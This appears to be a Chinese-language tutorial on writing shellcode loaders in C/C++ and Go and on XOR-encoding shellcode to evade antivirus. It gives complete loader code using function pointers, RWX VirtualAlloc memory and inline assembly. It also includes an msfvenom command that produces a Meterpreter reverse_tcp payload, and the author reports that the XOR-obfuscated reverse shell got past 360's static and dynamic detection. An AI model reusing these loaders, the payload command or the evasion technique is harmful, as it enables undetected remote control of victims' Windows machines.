





# C/C++加载shellcode

源码+shellcode直接编译：函数指针执行，内联汇编加载，申请动态内存

使用加载器加载shellcode

## 函数指针执行

```c_cpp
#include <stdio.h>
#include<windows.h>
# pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")
//设置入口地址，不弹出黑窗口
unsigned char buf[] =
"shellcode";

void main()
{
	((void(*)(void)) & buf)(); //这是一个函数指针调用，将buf数组的地址强制转换为一个无参的函数指针，然后调用该函数。这个操作会执行buf中存储的Shellcode。
}
```

## 申请动态内存加载

```c_cpp
#include <windows.h>

// 定义Shellcode
unsigned char buf[] = "shellcode";

int main()
{
    PVOID Memory;
    // 动态分配虚拟地址空间
    Memory = VirtualAlloc(
        NULL,                           // 让系统选择内存基址
        sizeof(buf),                    // 分配的内存大小
        MEM_COMMIT | MEM_RESERVE,       // 提交并保留内存
        PAGE_EXECUTE_READWRITE          // 可读、可写、可执行
    );

    // 复制内存内容，将Shellcode复制到新分配的内存中
    memcpy(Memory, buf, sizeof(buf));

    // 执行Shellcode，将分配的内存地址转换为函数指针并调用
    ((void(*)())Memory)();
}
```

> 代码解释：
> 
> 1.定义Shellcode:
> 
> - `unsigned char buf[] = "shellcode";`: 声明一个字符数组buf，用于存储Shellcode。实际的Shellcode应该用对应的十六进制数值替代"shellcode"。
> 
> 2.分配内存:
> 
> - `PVOID Memory;`: 声明一个指向任何类型的指针Memory，用于存储分配的内存地址。
> 
> - `Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);`: 调用VirtualAlloc函数分配虚拟内存：
>   ```
>   NULL: 让系统选择内存的基址。
>   ```
>   ```
>   sizeof(buf): 需要分配的内存大小，与Shellcode的大小相同。
>   ```
>   ```
>   MEM_COMMIT | MEM_RESERVE: 提交并保留内存。
>   ```
>   ```
>   PAGE_EXECUTE_READWRITE: 分配的内存页属性为可读、可写、可执行。
>   ```
> 
> 3.复制内存内容:
> 
> - `memcpy(Memory, buf, sizeof(buf));`: 将Shellcode从buf复制到分配的内存中。
> 
> 4.执行Shellcode:
> 
> - `((void(*)())Memory)();`: 将分配的内存地址Memory转换为一个无参的函数指针，并调用该函数。这个操作会执行Memory中存储的Shellcode。

## 内联汇编加载

```c_cpp
#include <windows.h>  
#include <stdio.h>  
//将.data段设置为可读、可写、可执行.默认情况下,数据段是不可执行的,这里通过链接器指令修改其属性.
#pragma comment(linker, "/section:.data,RWE")  
unsigned char shellcode[] = "shellcode";
void main()
{
    __asm
    {
        mov eax, offset shellcode //将shellcode数组的地址（偏移量）加载到寄存器eax中。
        jmp eax  //跳转到寄存器eax中存储的地址,即跳转到shellcode的起始地址，开始执行Shellcode.
    }
}
```

# Go语言加载shellcode

```golang
package main

import (
	"fmt"
	"os"
	"syscall"
	"unsafe"
)
// 定义内存分配和页面属性常量
const (
	MEM_COMMIT             = 0x1000
	MEM_RESERVE            = 0x2000
	PAGE_EXECUTE_READWRITE = 0x40
)
// 加载DLL和查找函数
var (
	kernel32      = syscall.MustLoadDLL("kernel32.dll")
	ntdll         = syscall.MustLoadDLL("ntdll.dll")
	VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
	RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")
	shellcode_buf = []byte{
	  // Shellcode的前部分，以十六进制表示
		0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xcc, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52,
		0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x51, 0x48, 0x8b,
		0x52, 0x20, 0x56, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9,
		0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 
	}
)
// 错误检查函数
func checkErr(err error) {
	if err != nil {
		if err.Error() != "The operation completed successfully." {
			println(err.Error())
			os.Exit(1)
		}
	}
}

func main() {
	shellcode := shellcode_buf  // Shellcode数据
	// 调用VirtualAlloc函数分配内存
	addr, _, err := VirtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
	if err != nil && err.Error() != "The operation completed successfully." {
		syscall.Exit(0)
	}
	fmt.Println("内存分配成功")
	// 调用RtlCopyMemory函数复制内存
	_, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
	if err != nil && err.Error() != "The operation completed successfully." {
		syscall.Exit(0)
	}
	fmt.Println("内存复制成功")
	// 调用分配内存地址处的Shellcode
	syscall.Syscall(addr, 0, 0, 0, 0)
}
```

> 代码解释:
> 
> 1.导入包：
> 
> - fmt: 提供格式化I/O功能。
> 
> - os: 提供平台无关的操作系统功能。
> 
> - syscall: 提供低级别的系统调用接口。
> 
> - unsafe: 提供Go语言中不安全的内存操作。
> 
> 2.常量定义:
> 
> - MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE: 内存分配和页面属性常量，用于调用VirtualAlloc函数。
> 
> 3.加载DLL和函数:
> 
> - 使用syscall.MustLoadDLL加载kernel32.dll和ntdll.dll。
> 
> - 使用kernel32.MustFindProc("VirtualAlloc")查找VirtualAlloc函数。
> 
> - 使用ntdll.MustFindProc("RtlCopyMemory")查找RtlCopyMemory函数。
> 
> 4.定义Shellcode:
> 
> - shellcode_buf存储了Shellcode的字节码。
> 
> 5.错误检查函数:
> 
> - checkErr函数用于检查错误并在错误发生时退出程序。
> 
> 6.主函数main:
> 
> - 调用VirtualAlloc函数分配可执行、可读、可写的内存。
> 
> - 调用RtlCopyMemory函数将Shellcode复制到分配的内存中。
> 
> - 调用分配内存地址处的Shellcode，开始执行Shellcode。

使用go加载shellcode有两个问题需要注意，一是shellcode要生成**x64架构**的，二是shellcode需要生成**num格式**.

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=xxxxxxx lport=xxxx -a x64 -f num
```

# shellcode变形免杀初探

shellcode的本质是计算机可直接执行的机器码，比汇编语言更低一层的存在，对于msf生成的一段弹出calc.exe的shellcode，翻译成汇编语言如下所示

```assembly_x86
00446000 | FC               | cld                                   |
00446001 | E8 82000000      | call shellcodeanalyse.446088          |
00446006 | 60               | pushad                                |
00446007 | 89E5             | mov ebp,esp                           | upper stack
00446009 | 31C0             | xor eax,eax                           | eax:unsigned char * buf
0044600B | 64:8B50 30       | mov edx,dword ptr fs:[eax+30]         | PEB
0044600F | 8B52 0C          | mov edx,dword ptr ds:[edx+C]          | DllList
00446012 | 8B52 14          | mov edx,dword ptr ds:[edx+14]         | InMemoryOrderModuleList
00446015 | 8B72 28          | mov esi,dword ptr ds:[edx+28]         | Full_DLLNAME_Buffer
00446018 | 0FB74A 26        | movzx ecx,word ptr ds:[edx+26]        | MaximumLength
0044601C | 31FF             | xor edi,edi                           | edi:___argv
0044601E | AC               | lodsb                                 |
0044601F | 3C 61            | cmp al,61                             | upper(ch)
00446021 | 7C 02            | jl shellcodeanalyse.446025            |
00446023 | 2C 20            | sub al,20                             |
00446025 | C1CF 0D          | ror edi,D                             | (rotate)res>> 0xD
00446028 | 01C7             | add edi,eax                           | edi:___argv, eax:unsigned char * buf
0044602A | E2 F2            | loop shellcodeanalyse.44601E          |
0044602C | 52               | push edx                              | edi:hash of(dll name)
0044602D | 57               | push edi                              | edi:___argv
0044602E | 8B52 10          | mov edx,dword ptr ds:[edx+10]         | dllbase
00446031 | 8B4A 3C          | mov ecx,dword ptr ds:[edx+3C]         | nt_headers
00446034 | 8B4C11 78        | mov ecx,dword ptr ds:[ecx+edx+78]     | export_entry
00446038 | E3 48            | jecxz shellcodeanalyse.446082         | jump if ecx==0 judge if export
```

原shellcode：

```c_cpp
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```

结合一段弹出calc的shellcode进行试验:



有程序的输出可知，shellcode的长度为194字节，\x意味着后面是16进制。所以shellcode就是一段194字节长的16进制数据。由于shellcode是16进制而不是字符串的缘故，用常规的加密思路去处理显得很困难。

在这里我使用异或的方法处理shellcode，**异或的特点是原数据经过两次异或后与原来相同**，本例中最终的buf经过函数指针执行是可以正常启动calc.exe的。<u>*将第一次异或后密文保存，使用时在代码中解密，就是变形免杀的初步思想。*</u>



```c_cpp
#include <stdio.h>

// 主函数
void main() {
    // 定义Shellcode的字节数组
    unsigned char buf[] = "\xf6\xe2\x88\xa\xa\xa\x6a\x83\xef\x3b\xca\x6e\x81\x5a\x3a\x81\x58\x6\x81\x58\x1e\x81\x78\x22\x5\xbd\x40\x2c\x3b\xf5\xa6\x36\x6b\x76\x8\x26\x2a\xcb\xc5\x7\xb\xcd\xe8\xf8\x58\x5d\x81\x58\x1a\x81\x40\x36\x81\x46\x1b\x72\xe9\x42\xb\xdb\x5b\x81\x53\x2a\xb\xd9\x81\x43\x12\xe9\x30\x43\x81\x3e\x81\xb\xdc\x3b\xf5\xa6\xcb\xc5\x7\xb\xcd\x32\xea\x7f\xfc\x9\x77\xf2\x31\x77\x2e\x7f\xee\x52\x81\x52\x2e\xb\xd9\x6c\x81\x6\x41\x81\x52\x16\xb\xd9\x81\xe\x81\xb\xda\x83\x4e\x2e\x2e\x51\x51\x6b\x53\x50\x5b\xf5\xea\x55\x55\x50\x81\x18\xe1\x87\x57\x60\xb\x87\x8f\xb8\xa\xa\xa\x5a\x62\x3b\x81\x65\x8d\xf5\xdf\xb1\xfa\xbf\xa8\x5c\x62\xac\x9f\xb7\x97\xf5\xdf\x36\xc\x76\x0\x8a\xf1\xea\x7f\xf\xb1\x4d\x19\x78\x65\x60\xa\x59\xf5\xdf\x69\x6b\x66\x69\x24\x6f\x72\x6f\xa\xa";
    
    // 获取Shellcode的大小
    int shellcodesize = sizeof(buf);

    // 打印Shellcode的大小
    printf("%d\n", shellcodesize);

    // 遍历Shellcode的每一个字节
    for (int i = 0; i < shellcodesize; i++) {
        // 通过XOR操作进行解码，XOR的密钥为10
        buf[i] ^= 10;
    }

    // 执行解码后的Shellcode
    ((void(*)(void)) &buf)();
}

```

将shellcode换成反弹shell再次进行试验，360动态静态全部免杀正常上线。但是当360开启鲲鹏引擎时动静都被查杀。



windows defender直接查杀



从vt查杀率来看，效果还有待提高，不过相比未作处理已有很大改善。

